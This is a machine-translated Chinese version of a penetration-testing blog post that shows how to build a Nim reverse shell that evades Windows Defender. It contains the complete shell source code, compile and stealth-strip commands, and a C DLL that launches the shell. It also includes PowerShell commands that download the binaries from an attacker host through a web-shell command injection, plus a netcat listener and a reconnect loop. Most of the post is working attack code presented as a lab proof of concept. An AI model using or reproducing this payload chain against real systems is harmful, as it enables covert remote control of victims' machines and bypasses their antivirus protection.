# 使用 nim 编译语言规避 Windows Defender 反向外壳检测

> 原文：<https://infosecwriteups.com/use-nim-compiled-language-to-evade-windows-defender-reverse-shell-detection-a9268b4a3b0e?source=collection_archive---------4----------------------->

**总结**

在本文中，我们将向您展示如何规避 Windows Defender 反向外壳检测的另一种方法。我们将使用 Josiah Pierce 在他的文章[https://trust foundry . net/2021/03/01/writing-basic-offensive-tooling-in-nim/中描述的方法。](https://trustfoundry.net/2021/03/01/writing-basic-offensive-tooling-in-nim/.)

**免责声明**

这篇文章仅仅是为了信息和教育的目的，对于那些愿意和好奇去了解和学习安全和渗透测试的人来说。内容不得用于非法目的。如果你准备好学习新的好东西，那么继续读下去。

**详情**

这是另一个关于“隐形”交互外壳的博客。换句话说，就是 Windows Defender 软件检测不到的外壳。我将向您展示如何使用 nim(一种编译语言)来创建未被发现的反向 shell 二进制文件。首先，我得把我的学分付给约西亚·皮尔斯。在这个概念验证中，我们将使用 Josiah 的源代码来构建我们的二进制文件。

尼姆从 2009 年就存在了。对于构建 Linux 和 Windows 二进制文件来说，它仍然是一种相对不为人知的语言。不熟悉这种语言的好处是这些二进制文件不会被大多数反病毒公司发现。截至撰写本文时(2022 年 12 月 17 日)，Windows Defender 软件尚未检测到本文中的恶意二进制文件。

除了 Josiah Pierce 的源代码之外，此 PoC 还包含:

—用于 Windows 可执行文件(exe 和 dll)编译的 x86 和 x64
——一些 Windows 批处理文件“foo”将二进制文件传输到我们的目标
——一些技巧以获得更稳定和交互式的外壳

POC 由 2 台机器组成:受害者(完全更新的 Windows 10)和攻击者(Kali Linux 2022.4 版本)。我们只使用了微软的 Windows Defender 软件，并没有测试其他厂商的有效载荷。

受害者:

windows 10 Professional[版本 10.0.19044.2364]
IP 地址:192.168.62.165
安全性:防病毒检测和防火墙规则的默认设置。
软件:Xampp for Windows 和 OWASP Mutillidae 易受攻击的 web 服务器。
用户上下文:本地用户组成员中的 POC 用户。

Windows 10 安全仪表板:



Windows 安全配置设置:



攻击者:

Kali Linux
IP 地址:192.168.62.161

初始立足点:

我们最初的立足点是一个带有 cmd 注入漏洞的 PHP web shell。

*127.0.0.1 & & <命令>*

例如，我们可以使用 web shell 来执行“whoami”命令:



# 准备 PoC 环境

在编译我们的二进制文件之前，我们必须更新我们的 Kali 攻击机器。

1.  在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

安装 mingw-64 和 nim。

```
sudo apt install mingw-w64 
sudo apt install nim
```

安装额外的支持工具

```
sudo apt install rlwrap
sudo apt install gedit
```

# 创建二进制文件

2.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

从[https://trust foundry . net/2021/03/01/writing-basic-offensive-tooling-in-nim/](https://trustfoundry.net/2021/03/01/writing-basic-offensive-tooling-in-nim/)下载 nim 源代码，将代码保存在/tmp/reverse_shell.nim

```
gedit /tmp/reverse_shell.nim
```

在/tmp/reverse_shell.nim 中复制并粘贴下面的代码

```
import net
import osproc # this comes with execProcess, which returns the output of the command as a string
import os
import strutils

# these are the default connection parameters for the rev shell, but can be overwritten with command-line args
var ip = "127.0.0.1"
var port = 4444

var args = commandLineParams() # returns a sequence (similar to a Python list) of the CLI arguments

# if arguments have been provided, assume they are an IP and port and overwrite the default IP/port values
if args.len() == 2:
    ip = args[0]
    port = parseInt(args[1])

# begin by creating a new socket
var socket = newSocket()
echo "Attempting to connect to ", ip, " on port ", port, "..."

while true:
# attempt to connect to the attacker's host
    try:
        socket.connect(ip, Port(port))

        # if the connection succeeds, begin the logic for receiving and executing commands from the attacker
        while true:
            try:

                socket.send("> ")
                var command = socket.recvLine() # read in a line from the attacker, which should be a shell command to execute
                var result = execProcess(command) # execProcess() returns the output of a shell command as a string
                socket.send(result) # send the results of the command to the attacker

            # if the attacker forgets they're in a rev shell and tries to ctrl+c, which they inevitably will, close the socket and quit the program    
            except:
                echo "Connection lost, quitting..."
                socket.close()
                system.quit(0)

# if the connection fails, wait 10 seconds and try again        
    except:
        echo "Failed to connect, retrying in 10 seconds..."
        sleep(10000) # note that sleep() takes its argument in milliseconds, at least by default
        continue
```

为了完整起见，我们向您展示如何编译 x86 和 x64 二进制文件。其实 x86 就够了。这是因为 32 位可执行文件可以在 x86 和 x64 架构上运行。

3.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

将 nim 源代码编译成 Windows x86 en x64 反向 shell exe 二进制文件。

```
# 32bits compilation
nim c -d:mingw --cpu:i386 -t:-m32 -l:-m32 /tmp/reverse_shell.nim 
mv /tmp/reverse_shell.exe /tmp/rev-x86.exe  

# 64bits compilation
nim c -d:mingw --cpu:amd64 /tmp/reverse_shell.nim 
mv /tmp/reverse_shell.exe /tmp/rev-x64.exe
```



为了更加隐蔽，将删除调试符号。这也将把文件大小减少到大约 220 千字节。

```
strip /tmp/rev-x86.exe
strip /tmp/rev-x64.exe
```



使用 strip 命令移除调试符号

有时你需要一个. dll 文件(例如著名的 PrintNightmare 漏洞)。不幸的是，我没有成功地使用 nim 编译器创建 Windows dll 文件。如果你能做到这一点，请让我知道，我会更新这篇文章。好资源:[https://github . com/byt 3 bl 33d 3 r/offensive nim # creating-windows-dll-with-an-exported-dllmain](https://github.com/byt3bl33d3r/OffensiveNim#creating-windows-dlls-with-an-exported-dllmain)

或者，我们会用 C 来编译 Windows .dll，实际上 dll 文件只会执行命令*C:\ Windows \ Tasks \ rev-x86 . exe<LHOST><LPORT>。*这意味着您需要同时使用。dll 和。exe 文件。

4.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

创建 C 源代码，用于编译一个 Windows。dll 二进制文件。

```
LHOST=192.168.62.161
LPORT=443
cd /tmp
echo "#include <windows.h>" > testdll.c
echo "BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {" >> testdll.c
echo "if (dwReason == DLL_PROCESS_ATTACH) {" >> testdll.c
echo "system(\"START /B C:\\\\\\Windows\\\\\\Tasks\\\\\\\\rev-x86.exe ${LHOST} ${LPORT}\"); ">> testdll.c
echo "ExitProcess(0);" >> testdll.c
echo "} ">> testdll.c
echo "return TRUE;" >> testdll.c
echo "}" >> testdll.c
```



5.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

将 C 源代码编译成 Windows x86 en x64 reverse shell。dll 二进制文件。

```
# x86
i686-w64-mingw32-gcc testdll.c -shared -o /tmp/rev-x86.dll

# x64
x86_64-w64-mingw32-gcc testdll.c -shared -o /tmp/rev-x64.dll
```



# 将二进制文件传输到目标

下一步是将 Windows 二进制文件转移到目标 Windows 10 计算机上。因为起点是通过 web shell 远程执行代码，所以我们还不能交互式访问我们的目标。为了传输文件，我们需要利用‘命令执行’漏洞。

我们将分两步转移文件:

*   向批处理文件添加复制命令(backup.bat)
    -下载并执行批处理文件

我们将把 are 文件复制到始终可用且可写的目标目录 C:\Windows\Tasks。

6.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

创建包含 PowerShell 复制文件命令的 Windows 批处理文件。我们将继续使用 32 位版本。

```
LHOST=192.168.62.161
LPORT_web=80
file1=rev-x86.dll
file2=rev-x86.exe
echo START /B powershell -c "(New-Object System.Net.Webclient).DownloadFile('http://${LHOST}:${LPORT_web}/${file1}','C:\Windows\Tasks\\\\${file1}')" > /tmp/backup.bat
echo START /B powershell -c "(New-Object System.Net.Webclient).DownloadFile('http://${LHOST}:${LPORT_web}/${file2}','C:\Windows\Tasks\\\\${file2}')" >> /tmp/backup.bat
```



7.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

启动 Python web 服务器来存放我们的反向 shell 文件和 backup.bat。

```
python3 -m http.server 80 --directory /tmp
```



8.在 192.168.62.165 上执行(受害计算机，Windows 10 web shell)

使用“命令执行”漏洞下载并执行 backup.bat，然后下载我们的 Windows x86 反向外壳二进制文件(rev-x86.dll rev-x86.exe)

```
START /B powershell.exe -c (New-Object System.Net.Webclient).DownloadFile('http://192.168.62.161:80/backup.bat','C:\Windows\Tasks\backup.bat');IEX 'c:\Windows\Tasks\backup.bat'
```



检查 python web 服务器:



# 执行二进制文件并建立反向 shell

既然我们已经将必要的文件复制到了目标机器上，我们可以尝试执行它们，并与我们的攻击机器建立一个反向 shell。我们将使用两种机制来使这个外壳更加稳定和具有交互性:

-rl wrap(sudo apt install rl wrap)
-while 循环

9.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

启动 netcat 监听器(端口 443)。使用 rlwrap 获得“doskey”感觉。

```
while; do rlwrap nc -nlvp 443 ; done
```



10.在 192.168.62.165 上执行(受害计算机，Windows 10 web shell)

利用“命令执行”漏洞执行二进制文件并建立反向外壳。我们可以使用一个永恒的 for 循环来使这个 shell 更加稳定:

```
c:\Windows\Tasks\rev-x86.exe 192.168.62.161 443
```



我们有一个反向外壳连接！

备选方案:

在自动重新连接的循环中添加目标命令。

```
FOR /L %L IN (0,0,1) DO @(timeout /t 2 /nobreak >nul && c:\Windows\Tasks\rev-x86.exe 192.168.62.161 443)
```

10b。在 192.168.62.165 上执行(受害机器，Windows 10 web shell)。

对于某些攻击，您需要一个 Windows dll。可以在 Windows 命令行上用 rundll32 <command></command>、<function>执行 dll。</function>

```
c:\Windows\Tasks\rundll32 rev-x86.dll,test
```

# 远程命令执行

为了使用这个 shell，您必须执行带有前缀“cmd /c”或“powershell -c”的命令。例如 cmd /c whoami 或 powershell-c“whoami”

11.在 192.168.62.165 上执行(受害机，交互反壳)。

```
cmd /c "dir c:\"
powershell -c "whoami"
```



使用命令前缀“cmd /c”或“powershell -c”。

# 病毒总量分析

当我们将我们的(稍微修改的)rev-x86.exe 文件加载到 virustotal 中时，我们得到了 71 个检测中的 5 个(7%)。



**缓解建议**

反病毒软件供应商迟早会检测到注入的可执行文件。在撰写本文时(2022 年 12 月 16 日)，Windows 防病毒软件未检测到编译二进制文件。很可能在不久的将来会。您可以通过更新防病毒软件来缓解这一问题。

**学分**

约西亚·皮尔斯([https://trustfoundry.net/author/josiah/](https://trustfoundry.net/author/josiah/))

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！